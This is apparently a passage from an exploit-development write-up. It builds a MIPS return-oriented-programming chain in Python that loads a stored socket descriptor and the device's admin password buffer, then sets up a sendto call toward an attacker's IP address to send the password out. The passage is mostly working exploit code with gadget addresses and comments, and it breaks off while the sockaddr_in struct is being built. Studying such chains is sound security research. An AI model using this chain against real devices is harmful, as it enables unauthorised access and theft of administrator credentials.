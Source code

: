All we need to do now to have a valid *sockaddr_in* struct is append the IP address. As most of this is done within the *sendto* call construction, I will include the gadgets used in the next section.

### sendto

`ssize_t sendto(int sockfd, const void *buf, size_t len, int flags, const struct sockaddr *dest_addr, socklen_t addrlen);`

As you can see above, we have 6 argument to populate, meaning we will be loading values into *$t0* and *$t1*. Lets start with the easy arguments and get the *sockfd* we stored earlier into *$a0*:

```python
# Load sockfd address into v0
# 0x001a9f9c: lw $v0, ($sp); lw $ra, 0x14($sp); lw $s1, 0x10($sp); lw $s0, 0xc($sp); jr $ra; addiu $sp, $sp, 0x18;
chain += p32(sockfd_addr) # v0
chain += b'b' * 8
chain += p32(0xdeadbeef) # s0
chain += p32(sockaddr_addr) # s1
chain += p32(0x1a46dc + base_address) # ra

# Get the actual value of sockfd into v0
# 0x001a46dc: lw $v0, ($v0); lw $ra, 4($sp); jr $ra; addiu $sp, $sp, 8; 
chain += b'b' * 4
chain += p32(0x1746c8 + base_address)

# Move sockfd to a0 for connect
# 0x001746c8: move $a0, $v0; lw $ra, 4($sp); lw $s0, ($sp); jr $ra; addiu $sp, $sp, 8;
chain += p32(0xdeadbeef) # s0
chain += p32(0x11e568 + base_address) # ra
```

Notice how we needed the actual value of *sockfd* to be in *$a0* and not its address, we used the `lw $v0, ($v0)` gadget to achieve this, and then moved it into *$a0*.

We can then set *$a1* to be the address of the password buffer, and *$a3* to 0 as we don't need any flags set:

```python
# Move admin pwd buffer into a1
# 0x0011e568: lw $a1, ($sp); lw $ra, 0xc($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 0x10; 
chain += p32(pwd_buffer) # a1 (address of pwd)
chain += b'b' * 0x8
chain += p32(0xbb6e4 + base_address) # ra

# Set a3 to be zero (flags)
# 0x000bb6e4: move $a3, $zero; lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10; 
chain += b'b' * 0xc
chain += p32(0x57864 + base_address) # ra
```

With these arguments set, we can finally construct the *sockaddr_in* struct with the following gadgets - the comments do a pretty good job explaining what is happening. We are basically copying the memory address with the desired values (*0x0* *0x2*) I mentioned earlier, and appending the IP address of the target:
